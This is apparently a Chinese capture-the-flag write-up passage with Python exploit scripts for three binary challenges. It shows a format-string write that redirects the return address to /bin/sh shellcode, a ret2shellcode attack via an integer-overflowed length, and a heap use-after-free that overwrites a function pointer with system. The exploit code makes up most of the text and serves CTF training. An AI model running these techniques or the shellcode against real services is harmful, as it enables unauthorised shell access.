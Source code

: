 ```python
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

sla('Exit\n','1')
buf = int(r(8),16)
sc = buf+0x28
ret = buf-0x24

payload = p32(ret)+'%'+str((sc&0xffff)-4)+'d%16$hnaaa'
payload += p32(ret+2)+'%'+str(((sc>>16)&0xffff)-(sc&0xffff)-7)+'d%21$hnaaa'
payload += shellcode

s(payload)
sla('Exit\n','2')
```

### another_repeater

题目在输入长度时可以整数溢出，还给了 `buf` 的地址。那么直接输入 `-1`，然后 ret2shellcode 即可。

```python
shellcode = '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'

sla('peat?\n','-1')
addr = int(r(8),16)

payload = shellcode.ljust(0x41b+4,'a')+p32(addr)
sa('\n',payload)
```

### babyheap

uaf 覆盖打印函数为 `system`，内容为 `/bin/sh`。

```python
def add(size,content='a'):
    sla(':','1')
    sla('size: \n',str(size))
    sa('content: \n',content)

def free(index):
    sla(':','2')
    sla('index: \n',str(index))

def show(index):
    sla(':','3')
    sla('index: \n',str(index))

add(0x20) # 0
add(0x20) # 1
free(0)
free(1)

binsh = 0x602010
add(0x10,flat(binsh,elf.plt['system'])) # 2
show(0)
```
